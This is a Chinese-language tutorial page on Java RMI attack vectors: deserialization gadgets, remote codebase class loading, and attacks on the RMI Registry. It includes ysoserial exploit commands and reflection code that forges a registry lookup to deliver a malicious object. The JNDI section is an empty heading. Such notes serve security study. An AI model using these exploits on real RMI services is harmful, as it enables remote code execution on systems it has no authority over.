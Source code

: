# RMI和JNDI攻击向量

# RMI攻击向量

## 客户端攻击服务端

**情况1：**
假设服务端存在一个公共的已知PublicKnown类（比如经典的Apache Common Collection，这里只是用PublicKnown做一个类比），它有readObject方法并且在readObject中存在命令执行的能力，所以我们客户端可以写一个与服务端包名，类名相同的类并继承Message类，通过远程函数调用传递恶意对象到服务端。

**情况2：**
通过Java RMI远程类加载攻击服务端。对于服务端而言，如果客户端传递的方法参数是远程对象接口方法参数类型的子类，那么服务端需要从客户端提供的java.rmi.server.codebaseURL去加载对应的类。

无论是客户端还是服务端要远程加载类，都需要满足以下条件：

* 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置java.security.policy，这在后面的利用中可以看到。
* 属性 java.rmi.server.useCodebaseOnly 的值必需为false。但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
```java
    //如果需要使用RMI的动态加载功能，需要开启RMISecurityManager，并配置policy以允许从远程加载类库
    System.setProperty("java.security.policy", RMIServer.class.getClassLoader().getResource("java.policy").getFile());
    RMISecurityManager securityManager = new RMISecurityManager();
    System.setSecurityManager(securityManager);
    //但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件,
    System.setProperty("java.rmi.server.useCodebaseOnly","false");
```
```
java.policy
// Standard extensions get all permissions by default

grant {
	permission java.security.AllPermission;
};

```

## 服务端攻击客户端

**情况1：**
服务端如果想要攻击客户端，那么利用点就是存在客户端反序列化服务端的返回值的时候，即客户端存在公共的已知PublicKnown类（比如经典的Apache Common Collection，这里只是用PublicKnown做一个类比），它有readObject方法并且在readObject中存在命令执行的能力，服务端通过返回值返回序列化的PublicKnown类型的对象。

**情况2：**
通过Java RMI远程类加载攻击服务端。对于客户端而言，如果服务端返回的对象为远程接口方法返回对象的子类，那么客户端需要从服务端提供的java.rmi.server.codebaseURL去加载对应的类。
```java
 //设置java.rmi.server.codebase,客户端从codebase加载远程类
System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:8000/");
Registry reg;
try {
        // 创建Registry
        reg = LocateRegistry.createRegistry(9999);
        System.out.println("java RMI registry created. port on 9999...");
    } catch (Exception e) {
        System.out.println("Using existing registry");
        reg = LocateRegistry.getRegistry();
    }
    //绑定远程对象到Registry
reg.bind("Services", services);
......
```
和客户端攻击服务端一样，需要客户端打开安全设置，允许远程加载类。
```java
    //如果需要使用RMI的动态加载功能，需要开启RMISecurityManager，并配置policy以允许从远程加载类库
    System.setProperty("java.security.policy", RMIServer.class.getClassLoader().getResource("java.policy").getFile());
    RMISecurityManager securityManager = new RMISecurityManager();
    System.setSecurityManager(securityManager);
    //但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件,
    System.setProperty("java.rmi.server.useCodebaseOnly","false");
```

## 攻击注册中心
```java
(1) 利用DGC攻击RMI Registry，可以通过与DGC通信的方式发送恶意payload让注册中心反序列化
java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 9999 
CommonsCollections6 "calc"
```
```java
(2) 利用bind/rebind请求攻击RMI Registry (JDK版本必须在8u141之前)

java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 9999 CommonsCollections6 "calc" (PS: jdk<8u121)

服务端也是可以向注册中心序列化传输远程对象,那么直接把远程对象改成反序列化Gadget看下。从Client接收到的bind或rebind的remote obj，将由sun/rmi/registry/RegistryImpl_Skel.java#dispatch处理，获取到的序列化数据直接调用了readObject函数，导致了常规的Java反序列化漏洞的触发。这里我们只需要写一个bind或rebind的操作，即可攻击到RMI Registry。

其他：(PS:jdk<8u232_b09)
// 开启JRMPListener
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "calc"
// 发起攻击
java -cp target/ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit2 127.0.0.1 1099 jrmphost 8888
或者java -cp target/ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit3 127.0.0.1 1099 jrmphost 8888

Registry对于bind/rebind的请求，会去检查这个请求是否为本地请求，对于外部的请求，Registry会拒绝该请求,所以如果要使用bind/rebind请求来远程攻击Registry，JDK版本必须在8u141之前
```
```java
(3) 利用unbind/lookup请求攻击RMI Registry (绕过JDK版本必须在8u141之前的限制，PS :　JDK>=8u232_b09 &&　JDK<=8u242，大于8u242的条件下也失效了，主要原因在于lookup接口无法再反序列化非string类型的object了)
unbind和lookup实际上都会调用readObject来读取传递过来的参数，所以同样是可以利用的。

不过这里有一个问题，当我们调用unbind或者lookup时，只允许我们传递字符串，所以没法传递我们的恶意对象。

这个问题要解决有几种办法：

* 伪造连接请求
* rasp hook请求代码，修改发送数据
我用的是第一种，也是比较简单的一种，直接通过反射就能实现。

ObjectPayload payloadObj = payloadClass.newInstance();
Object payload = payloadObj.getObject(command);
String name = "pwned" + System.nanoTime();
Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);

// 获取ref
Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
fields_0[0].setAccessible(true);
UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

//获取operations
Field[] fields_1 = registry.getClass().getDeclaredFields();
fields_1[0].setAccessible(true);
Operation[] operations = (Operation[]) fields_1[0].get(registry);

// 模拟lookup的调用代码，传递可序列化的Object类型
RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
ObjectOutput var3 = var2.getOutputStream();
var3.writeObject(remote);
ref.invoke(var2);

利用方式：
//开启JRMPListener
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "calc"
//发起攻击
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit4 127.0.0.1 1099 CommonsCollections6 "calc"
或
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit5 127.0.0.1 1099 RMIConnectWrapped 127.0.0.1:8888
或
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit5 127.0.0.1 1099 RMIConnectWithUnicastRemoteObject 127.0.0.1:8888
```

# JDNI攻击向量



https://blog.0kami.cn/2020/02/06/java/rmi-registry-security-problem/
https://blog.cfyqy.com/article/154071ea.html
https://paper.seebug.org/1091/#serverrmi-server
https://xz.aliyun.com/t/7079
https://xz.aliyun.com/t/7264
http://www.codersec.net/2018/09/%E4%B8%80%E6%AC%A1%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91rmi%E6%9C%8D%E5%8A%A1%E7%9A%84%E6%B7%B1%E6%80%9D/
https://paper.seebug.org/1194/#_8
https://paper.seebug.org/1420/#_3